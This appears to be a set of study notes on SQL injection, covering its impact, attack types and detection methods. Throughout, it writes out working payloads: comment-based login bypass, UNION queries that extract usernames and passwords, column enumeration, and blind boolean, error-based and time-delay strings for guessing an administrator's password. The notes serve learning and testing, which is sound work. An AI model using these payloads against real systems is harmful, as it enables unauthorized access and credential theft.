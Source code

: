 ## What is the impact of a successful SQL injection attack?

- unauthorized access to sensitive data, such as passwords, credit card details, or personal user information
- reputational damage and regulatory fines
- obtain a persistent backdoor into an organization's systems, leading to a long-term compromise that can go unnoticed for an extended period

## SQL injection examples

- Retrieving hidden data
- Subverting application logic
- UNION attacks
- Examining the databases
- Blind SQL injection

1. Retrieving hidden data
   eg - `https://insecure-website.com/products?category=Gifts`
   at backend - `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

   **Injection** - `https://insecure-website.com/products?category=Gifts'--` will cause ` SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

2. Subverting application logic
   eg - `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
   **Injection** - `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

3. UNION attacks - Retrieving data from other database tables
   eg - `SELECT name, description FROM products WHERE category = 'Gifts'`
   **Injection** - submit the input with `' UNION SELECT username, password FROM users--`

   - Determining the number of columns required in an SQL injection

   ```
   ' ORDER BY 1--
   ' ORDER BY 2--
   ' ORDER BY 3--
   ```

   - Determining Data Type of the returning columns

   ```
   ' UNION SELECT 'a',NULL,NULL--
   ' UNION SELECT NULL,'a',NULL--
   ' UNION SELECT NULL,NULL,'a'--
   ```

   - Retriving multiple values within a single column

   ```
   ' UNION SELECT username || '=>' || password FROM users--
   ```

   will return only 1 column

4. Examining the databases

   - see the cheat sheet below

5. Blind SQL Injection Vulnerablities

   (i) Triggering conditional responses

   - an application that uses tracking cookies to gather analytics about usage and requests to the application include a cookie header like this;
     `Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`  
     At backend => `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

   - this query is vulnerable to SQL injection but the results are not returned. But the app behaves differently depending on whether the query returns any data, for example - `Welcome back` message is displayed within the page
   - then check the conditions with boolean logic such as

   ```
   ' AND '1'='1'--
   ' AND '1'='2'--
   ```

   and find the differences and remember for the `true` condition.

   - suppose there is a table called `Users` with columns `Username` and `Password` and user called `Administrator`

   ```
   ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
   ```

   check whether it is true or false if false check with other

   ```
   ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
   ```

   - test in Burp Intruder

   (ii) Triggering SQL errors

   ```
   'AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   'AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
   ```

   - first case, condition 1=2 is false and will return true result
   - second case, condition 1=1 is true and 1/0 is executed and will return an error

   ```
   ' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) = 'm') THEN 1/0 ELSE 'a' END FROM Users) = 'a'--
   ```

   (iii) Triggering time delays

   - delaying the execution of an SQL query will also delay the HTTP response

   ```
   '; IF (1=2) WAITFOR DELAY '0:0:10'--
   '; IF (1=1) WAITFOR DELAY '0:0:10'--
   ```

   The second condition will cause an delay of HTTP response

   ```
   '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
   ```

   (iv) OAST (out-of-band) techniques

   - when the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query

---

## How to detect SQL injection vulnerabilities

1. Submitting the single quote character `'` and looking for errors or other anomalies
2. Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a differnent value, and looking for systematic differences in the resulting application responses
3. Submitting Boolean conditions such as `OR 1=1` and `OR 1=2` and looking for differneces in the application's responses
4. Submitting payloads designed to trigger time delays when executed within an SQL query, and looking for differneces in the time taken to respond
5. Submitting OAST payloads designed to trigger an out-of-band network interaction when executed within an SQL query and monitoring for any resulting interactions

---
